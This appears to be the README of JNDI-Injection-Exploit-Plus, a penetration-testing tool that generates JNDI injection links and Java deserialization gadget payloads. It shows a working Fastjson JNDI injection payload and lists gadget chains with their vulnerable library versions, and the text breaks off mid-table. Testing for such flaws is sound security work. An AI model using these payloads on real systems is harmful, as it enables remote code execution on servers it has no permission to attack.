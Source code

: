 # JNDI-Injection-Exploit-Plus

[中文 README](./README_zh.md)

## Description

JNDI-Injection-Exploit-Plus is a tool for generating **workable JNDI links** and provide background services by starting RMI server,LDAP server and HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit-Plus to test vulnerability. 

What's more, you can also use JNDI-Injection-Exploit-Plus to **generate base64/hex type of payloads** like [ysoserial](https://github.com/frohoff/ysoserial)

## More than [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) is a great tool, this is the plus version of it.

### What's more

#### 1. More JNDI Remote Reference Gadget: (total: 3)
- Support JDK 6/7/8
#### 2. More JNDI Local Reference Gadget: (total: 4)

Payload | author | dependencies
--- | --- | --- 
Tomcat 8+ or SpringBoot | @welk1n | trustURLCodebase is false but have Tomcat 8+ or SpringBoot 1.2.x+ in classpath
Groovy (GroovyClassLoader) | @cckuailong | trustURLCodebase is false but have Tomcat and Groovy in classpath
Groovy (GroovyShell) | @cckuailong | trustURLCodebase is false but have Tomcat and Groovy in classpath
Websphere Readfile | @cckuailong | trustURLCodebase is false but have WebSphere v6-v9 in classpath

#### 3. Deserailization Gadget (total: 74)

P.S. More Gadgets (:arrow_up: ) than ysoserial, welcome to PR more! ^_^

payload | author | dependencies 
------ | -------- | ------ 
AspectJWeaver       |@Jang                       |aspectjweaver:1.9.2, commons-collections:3.2.2
BeanShell1          |@pwntester, @cschneider4711 |bsh:2.0b5
C3P0                |@mbechler                   |c3p0:0.9.5.2, mchange-commons-java:0.2.11
C3P0Tomcat          |@yulegeyu                   |tomcat, com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11
Click1              |@artsploit                  |click-nodeps:2.3.0, javax.servlet-api:3.1.0
Clojure             |@JackOfMostTrades           |clojure:1.8.0
Coherence1 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0
Coherence2 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0